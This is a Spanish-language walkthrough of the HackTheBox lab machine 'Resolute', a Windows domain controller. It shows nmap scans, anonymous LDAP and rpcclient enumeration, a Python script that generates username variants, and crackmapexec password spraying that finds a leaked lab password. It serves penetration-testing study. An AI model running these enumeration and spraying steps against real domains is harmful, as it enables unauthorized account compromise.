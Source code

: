 ```yaml
---
layout      : post
title       : "HackTheBox - Resolute"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220banner.png
category    : [ htb ]
tags        : [ DLL, PSTranscript, LDAP, visual-studio, DnsAdmins, DC ]
---
```

Máquina Windows nivel medio. Enumeraremos hasta más no poder un **controlador de dominio**, veremos contraseñas volando libremente e inyectaremos una **DLL** maliciosa en un servidor **DNS** 😲

![220resoluteHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220resoluteHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [egre55](https://www.hackthebox.eu/profile/1190).

El dinamismo ante todooooooooooo0OoooO!

Nos enfrentaremos a un **DC** (controlador de dominio) to lindo, inicialmente enumeraremos el protocolo **LDAP**, con él conseguiremos bastante info de unos usuarios. Los recopilaremos para usarlos después.

Jugaremos con `rpcclient` para enumerar el dominio un poco más, encontraremos una contraseña en la descripción del usuario `marko`, pero validándolas contra el sistema u otro servicio no serán válidas. Tomaremos los usuarios que obtuvimos antes y probaremos con cada uno esa contraseña. Finalmente tendremos como candidato válido el usuario `Melanie`, jugando con `evil-winrm` obtendremos una **PowerShell** en el sistema como ella.

En un directorio del sistema encontraremos el log de unos comandos ejecutados en **PowerShell** (`PSTranscript`), con los ojos bien grandes veremos unas credenciales usadas por el usuario `Ryan` para intentar mapear unos directorios del sistema. Usaremos **evil-winrm** para obtener una nueva Shell.

Veremos que **Ryan** esta en el grupo `DnsAdmins`, jugaremos con ese grupo para explotar el servidor **DNS**, inyectaremos una `DDL` maliciosa que al ser ejecutada nos devuelva una **Reverse Shell** como el usuario `nt authority\system` (: 

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Mucho real!! Bastante enumerar y manos ensuciar e.e

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

HAY QUE VIVIR TODOS LOS DÍAS!

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el protocolo **LDAP**](#puertos-ldap).
3. [Explotación: encontramos usuarios en el servidor **LDAP**](#explotacion).
  * [Enumeramos un poquito más del **Domain Controller**](#rpcclient-dc).
4. [Nos movemos de **Melanie** a **Ryan** viendo archivos del sistema](#creds-pstranscript).
5. [Escalada de privilegios: explotamos el grupo **DnsAdmins**](#escalada-de-privilegios).
6. [**<u>Post-Explotación: Compilamos nuestra propia **DLL**</u>**](#manual-dll).
  * [Generamos la **DLL** usando **dns-exe-persistance**](#repo-dns-exe-persistance).
  * [Generamos la **DLL** usando **DNSAdmin-DLL**](#repo-dnsadmin-dll).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Iniciaremos encontrando que puertos tiene activos y expuestos la máquina, para esto usaremos `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.169 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve varios puertos:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.169
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.169 ()	Status: Up
Host: 10.10.10.169 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5985/open/tcp//wsman///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49670/open/tcp/////, 49676/open/tcp/////, 49677/open/tcp/////, 49688/open/tcp/////, 49712/open/tcp/////
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 126.37 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 53                | **[DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)**: Permite a internet identificar que dominio es de que IP y viceversa. |
| 88                | **[Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)**: Protocolo de autenticación.  |
| 135/593           | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre computadores de distintas redes sin problemas. |
| 139/445           | **[SMB](https://www.varonis.com/blog/smb-port/)**: Podemos compartir información entre dispositivos de una red. |
| 389/636/3268/3269 | **[LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)**: Protocolo que ayuda a la localización de "recursos" en una red. |
| 464               | **[kpasswd5](https://security.stackexchange.com/questions/205492/what-is-this-service)**: Relacionado con el protocolo **kerberos**: `Kerberos Password Change`. |
| 5985/47001        | **[WinRM](https://www.pcwdld.com/what-is-winrm)**: Usado para ejecutar tareas administrativas de una red. |
| 9389              | **[ADWS](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-administrative-center)**: `Active Directory Administrative Center`. |
| 49664/49666       | No sabemos. |
| 49667/49670/49676 | No sabemos. |
| 49677/49688/49712 | Y no sabemos. |

Uff, varios puertos...

Ya teniendo conocimiento de los servicios que tiene activos la máquina, haremos otro escaneo, pero esta vez para descubrir que versiones y script están relacionados con cada servicio:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.169
    [*] Open ports: 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV 10.10.10.169 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV -oN portScan 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-08-11 16:45:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=8/11%Time=6113FBAF%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"...
SF:...x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m36s, deviation: 4h02m31s, median: 12m35s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2021-08-11T09:46:12-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-11T16:46:13
|_  start_date: 2021-08-11T16:08:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 173.51 seconds
```

Peeeerfecto, destacamos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 389    | LDAP     | LDAP |

  * Un dominio: `megabank.local`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows Server 2016 Standard 14393 |

  * Vemos también el [grupo de trabajo](https://social.technet.microsoft.com/Forums/lync/es-ES/833097b4-30e4-4028-a59e-38d06c7024f5/para-que-sirve-un-grupo-de-trabajo?forum=win10itprogeneralES#11a41872-a3e7-4fa1-92af-291de8c17fda) `MEGABANK`.

Por el momento nada más, ahora si empecemos a romper de toooooooooodo 🕯️

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Protocolo <u>LDAP</u> [📌](#puertos-ldap) {#puertos-ldap}

Después de probar y probar cositas hacia el **DNS** o hacia **SMB** no encontramos nada :(

Sin embargo si nos enfocamos en enumerar los recursos sostenidos por el protocolo `LDAP` vemos varias cositas interesantes...

📥 ***"`LDAP` son las siglas de **Protocolo Ligero de Acceso a Directorio**, o en inglés **Lightweight Directory Access Protocol**). Se trata de un conjunto de protocolos de licencia abierta que son utilizados para **acceder a la información que está almacenada de forma centralizada** en una red."*** [profesionalreview](https://www.profesionalreview.com/2019/01/05/ldap/).

Muy bien, apoyados en [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-ldap) logramos profundizar y encontrar cadenas llamativas, empezaremos a jugar con un script de `nmap` que busca todos los recursos servidos por el protocolo y los muestra, se llama [ldap-search](https://nmap.org/nsedoc/scripts/ldap-search.html):

```bash
❱ nmap -p 389 --script "ldap-search" 10.10.10.169 -oN ldapSearch
```

Nos devuelve un gran output, pero ya en las primeras líneas podemos extraer info para seguir jugando:

```bash
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 389 --script ldap-search -oN ldapSearch 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.11s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=megabank,DC=local
|     dn: DC=megabank,DC=local
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=megabank,DC=local
...
...
...
```

Volvemos a ver el dominio de antes (`megabank.local`) pero separado, lo que realmente tenemos ahí es el *componente del dominio* (`DC`), que sería el objeto que toma el **DNS** como referencia para definir un "nombre de espacio" (como un "identificador").

Esto nos sirve para jugar a enumerar ese **DC**, ya sea con la herramienta `ldapsearch` o (hay más de 2 opciones claramente) con una librería de **Python** llamada `ldap3`. 

Empecemos con `ldapsearch` y después hacemos unos truquitos bonitos con **Python** y su librería `ldap3`.

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

| Parámetro | Descripción |
| --------- | :---------- |
| -h        | Le pasamos el servidor donde esta el protocolo **LDAP** |
| -x        | Hacemos una autenticación simple, sin contraseña        |
| -b        | Le indicamos cuál es la base de nuestra búsqueda        |

Al ejecutarlo vemos el output que obtuvimos con `nmap` peeeeeeero muchas cosas más. Y descubrimos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_foundUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos al final varios usuarios, les muestro a `Simon` porque fue el primero que vi, pero hay unos cuantos, si detallamos la imagen hay dos líneas interesantes:

* El `Common Name (CN)` contiene el nombre y apellido del usuario en el formato `Nombre Apellido` (nótese las mayus).
* En el campo `userPrincipalName` esta el correo relacionado con ese usuario, pero también podemos destacar su formato: `nombre@megabank.local`.

Esto es supremamente llamativo, ya que de una enumeración de recursos del servidor `LDAP` hemos encontrado usuarios relacionados con el **Domain Controller** `megabank.local` 🔥

* Pa leer - [Términos extraños (CN, DC, DN, etc.) : Understanding Active Directory Services](https://www.informit.com/articles/article.aspx?p=101405&seqNum=7).

Pues si volvemos a ejecutar la instrucción, pero filtrando con **grep** por `cn:` (si no sabes por qué, vuelve a la imagen de arriba) para ver únicamente el nombre completo del usuario, nos damos cuenta de que la lista empieza con el usuario `Ryan`:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_grepCN1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po muy bien, lo que podemos hacer ahora es filtrar desde `Ryan` hasta (por ejemplo) 30 líneas después:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30
cn: Ryan Bertrand
cn: Marko Novak
...
```

Ya tendríamos los usuarios, quitémosle el `cn:` y guardémoslos en un archivo:

```bash
# Separamos la cadena por sus espacios y nos quedamos con la segunda posicion en adelante (`2-`)
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2-
```

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2- > users.txt 
❱ cat users.txt | wc -l
23
```

Hay **23** usuarios, antes de ponernos a probar fuerza bruta o cualquier otra cosa es muy importante interpretar en que entorno estamos. 

Si nos hemos dado cuenta estamos dentro de un **directorio activo (Active Directory o AD)**, que de una manera muuuuuuuy resumida ayuda a administrar políticas, credenciales, equipos y otras cositas de toooda la red.

* [Más info AD - Active Directory Que es y para qué sirve](https://www.profesionalreview.com/2018/12/15/active-directory/).

Algo llamativo de los usuarios que existen en un **AD** son el formato en que son guardados (depende claramente de la empresa que gestiona ese AD).

Tomaremos de ejemplo el usuario `Carlos Carlitos` y el dominio `nanai`: nos podemos encontrar varios "templates":

(*Imagina con mayus también*)

* `c.carlitos@nanai`.
* `ccarlitos@nanai`.
* `Carlos@nanai`.
* `CarlosCarlitos@nanai`.

Y bueno, las demás formas que te puedas imaginar, esas serian las más conocidas y usadas. Pero, ¿de qué nos sirve esto? Bueno, muy sencillo, si en dado caso de probar el usuario `carlos` con tooooooodas las contraseñas posibles, pueda que ninguna nos dé resultado, ¿pero nos frenamos? Pues no, jugamos por ejemplo con un usuario llamado `ccarlitos` o `CarlosCarlitos` o bueno ya me entiendes :P el estar en un entorno como **AD** nos abre la puerta a más pruebas, ahora si sigamos...

Veamos rápidamente como obtener los mismos usuarios pero con la librería de `ldap3` en **Python3**:

* [Basic Enumeration LDAP with <u>import ldap3</u>](https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual).

Creamos el script:

```py
#!/usr/bin/python3

import ldap3

# Nos conectamos al servidor LDAP
server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

# Buscamos en el Domain Controller y filtramos por los objetos "persona" con atributos Common Name
connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Obtenemos un array como respuesta
print(connection.entries)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_users.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, ya tendríamos los usuarios, esto nos permite jugar de toooooooooodas las formas posibles con ellos desde el mismo **programa**, nuestro script final con únicamente los usuarios sería este:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Volvemos a extraer toda la data despues del `cn:` (texto que este entre varios rangos: de la 'A' a la 'Z', de la 'a' a la 'z', del '0' al '9' y espacios en blanco.
users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))
print(users_array)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_arrayUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora nos queda jugar con ese array y generar infinidad de usuarios.

▶️ ***[Lindo tutorial de expresiones regulares](https://github.com/ziishaned/learn-regex/blob/master/translations/README-es.md)***.

...

# Explotación [#](#explotacion) {#explotacion}

Con ayuda de la librería `ldap3` en **Python** y nuestra extracción de usuarios podemos crear un bucle primero para quitar `cn:` de cada usuario y segundo para armar el formato que queramos con respecto a cada user, este sería el resultado final de nuestro script:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))

# Creamos archivo vacio llamado `users.txt`
file_users = open("users.txt", "w")
for user_with_cn in users_array:
    user = user_with_cn.replace("cn: ","")

    # Ejemplo: Ryan Bertrand
    try:
        # Ryan
        firstname = user.split()[0]
        # Bertrand
        lastname = user.split()[1]

        # -- Abrimos archivo para adjuntar data, no para sobreescribirla
        file_users = open("users.txt", "a")

        # Ryan
        file_users.write(firstname + "\n")
        # ryan.bertrand
        file_users.write(firstname.lower() + "." + lastname.lower() + "\n")
        # Ryan.Bertrand
        file_users.write(firstname + "." + lastname + "\n")
        # Ryan@Bertrand
        file_users.write(firstname + "@" + lastname + "\n")
        # RyanBertrand
        file_users.write(firstname + lastname + "\n")
        # R.bertrand
        file_users.write(firstname[0] + "." + lastname.lower() + "\n")
        # Rbertrand
        file_users.write(firstname[0] + lastname.lower() + "\n")
        # r.bertrand
        file_users.write(firstname.lower()[0] + "." + lastname.lower() + "\n")
        # rbertrand
        file_users.write(firstname.lower()[0] + lastname.lower() + "\n")

    except:
        pass

file_users.close()
```

Y en nuestro archivo `users.txt` veríamos algo así con todos los usuarios:

```bash
❱ cat users.txt
...
Marcus
marcus.strong
Marcus.Strong
Marcus@Strong
MarcusStrong
M.strong
Mstrong
m.strong
mstrong
...
```

Perfectísimo, tendríamos varias opciones de usuarios, solo nos faltaría la contraseña, podemos probar varias cosas, inicialmente algo como que cada **usuario** tome su "user" como contraseña (no se sabe, la vida es muy loca :P):

Nos apoyaremos en `crackmapexec` que puede validar rápidamente contra **SMB** si unas credenciales son válidas o no:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p users.txt
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:ryan.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan.Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan@Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:RyanBertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:R.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:r.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Marko STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:marko.novak STATUS_LOGON_FAILURE
...
```

Pero nada, ninguna es valida 😔

---

## Enumeramos con <u>rpcclient</u> el <u>Domain Controller</u> [📌](#rpcclient-dc) {#rpcclient-dc}

Después de agotar pruebas volvi al escaneo de puertos y recordé a `rpcclient`, herramienta que nos ayuda a rescatar más info del controlador de dominio (en caso de no necesitar credenciales 🙃), su uso es sencillo:

```bash
❱ rpcclient 10.10.10.169 -U "" -N
rpcclient $>
```

Perfecto, nos dejó entrar sin credenciales, ahora es ver si hay algo para enumerar...

Intentando ver los usuarios del dominio obtenemos info, lo único que cambia con respecto a los que tenemos son los primeros:

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
...
```

Si nos fijamos también nos muestra un campo llamado `rid` que seria como un identificador para ese usuario, este nos sirve entre varias cosas para listar más info acerca del user, como por ejemplo con `Administrator`:

```bash
rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      mié, 11 ago 2021 11:09:43 -05
        Logoff Time              :      mié, 31 dic 1969 19:00:00 -05
        Kickoff Time             :      mié, 31 dic 1969 19:00:00 -05
        Password last set Time   :      jue, 12 ago 2021 09:46:03 -05
        Password can change Time :      vie, 13 ago 2021 09:46:03 -05
        Password must change Time:      mié, 13 sep 30828 21:48:05 -05
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000003e
        padding1[0..7]...
        logon_hrs[0..21]...
```

Obtenemos eso, una información más detallada del usuario, podríamos hacer a mano esto con todos los demás usuarios, pero es un poco feo, lo mejor es automatizarlo, hagámoslo rápidamente con ayuda de la terminal, lo primero es extraer todos los `rids`:

Con el parámetro `-c` le indicamos que ejecute un comando y no nos devuelva una sesión interactiva:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
...
```

Ahora filtramos por el `rid`:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+"
rid:[0x1f4]
rid:[0x1f5]
...
```

Separamos la cadena en dos delimitndola por el simbolo `:` y nos quedamos con el segundo valor:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2
[0x1f4]
[0x1f5]
...
```

Y simplemente quitamos los `[]` de la cadena:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2 | tr -d '[]'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_rpcclientGREP_rids.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, al final le agregamos un archivo donde queremos guardar esos valores (`... > rids.txt`) y ya tenemos los `rids` (: 

Ahora volvemos a usar `rpcclient`, pero con el comando `queryuser` y le vamos pasando los `rids` del archivo, primero hagamos una prueba con el usuario `Administrator`, ya vimos todos los campos que nos devuelve al ejecutar el comando, quedémonos con el nombre del usuario y su descripción, ningún otro campo se ve llamativo así que juguemos con esos dos:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description"
        User Name   :   Administrator
        Description :   Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2-
        Administrator
        Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'
Administrator
Built-in account for administering the computer/domain
```

Listo, ya tenemos nuestro output deseado, juguemos con un bucle que lea cada línea del archivo y realice el mismo procedimiento pero con todos los usuarios:

```bash
❱ for i in $(cat rids.txt); do echo "-----------"; rpcclient 10.10.10.169 -U "" -N -c "queryuser $i" -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'; done
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_forloop_rpcclient_foundPW.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

¿Ya viste algo? 😵 Efectivamente, hay una contraseña seteada para el usuario `marko` :O :o O.O Puuuuuuuuuuuess probando de nuevo con `cme`, pero ahora contra "`marko`" no nos dan resultado esas credenciales :(

```bash
❱ crackmapexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Probando contra los demás servicios no es válida tampoco :( peeeeeeeeeeero no nos rendimos, si recordamos habíamos creado una lista de usuarios muy linda, pues volvamos a probar con cada usuario del objeto pero ahora contra esa contraseña:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_cme_MelaniePWvalid.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAA, `crackmapexec` nos indica que esa contraseña es válida contra el usuario `Melanie`. 

